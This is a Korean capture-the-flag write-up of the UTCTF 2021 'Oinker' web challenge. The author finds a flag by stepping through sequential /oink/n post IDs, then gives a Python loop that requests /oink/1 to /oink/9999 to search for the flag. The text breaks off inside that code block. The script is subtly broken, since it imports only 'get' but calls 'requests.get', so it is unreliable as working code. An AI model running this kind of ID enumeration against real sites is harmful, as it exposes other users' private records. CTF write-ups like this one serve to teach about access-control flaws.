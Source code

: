     ``Write and post your oink, then share the secret link to your friends`` 
    
    이라는 텍스트와 입력할 수 있는 공간이 있는걸 보고
    
    한번 test를 입력하면

    ![Oinker test oink](/post-images/UTCTF/WEB/2021/Oinker/Oinker-problem-test.png)

    ``/oink/40`` 링크로 이동하게되면서 내가 입력했던 텍스트가 출력되는것을 보고

    XSS , SQLi, SSTI등의 취약점을 발생시킬 수 있는 페이로드를 넣었지만
    다시 웹에서 돌아가는 구조를 살펴보니

    계속 입력하면 할수록 url의 ``/oink/n`` 이 하나씩 늘어나면서 우리가 입력했던 텍스트들이 저장되는 기능이 있었다.

+ #### 문제 풀이

    그래서 나의 추측으로는 ``/oink/n`` 어딘가에 FLAG가 있을꺼라 생각하고
    ``/oink/0`` ``/oink/1`` ``/oink/2`` 로 몇번 접속 했는데

    ``https://web2.utctf.live:5320/oink/2`` 2로 해보니 

    ![Oinker Flag](/post-images/UTCTF/WEB/2021/Oinker/Oinker-Flag.png)

    ``utflag{traversal_bad_dude}`` 플래그가 노출된것을 볼 수 있다.

    이 문제는 만약 적은 수인 2가 아니라 54, 100 이런 범위가 큰 숫자였으면

    ```py
    from requests import get

    url = "https://web2.utctf.live:5320/oink/{}"

    for Oinker in range(1,10000):
        GetFlag = requests.get(url.format(Oinker)).text

        if GetFlag.find("utflag") != -1:
            print(f"Flag Page /Oinker/{Oinker}")
            print(GetFlag)
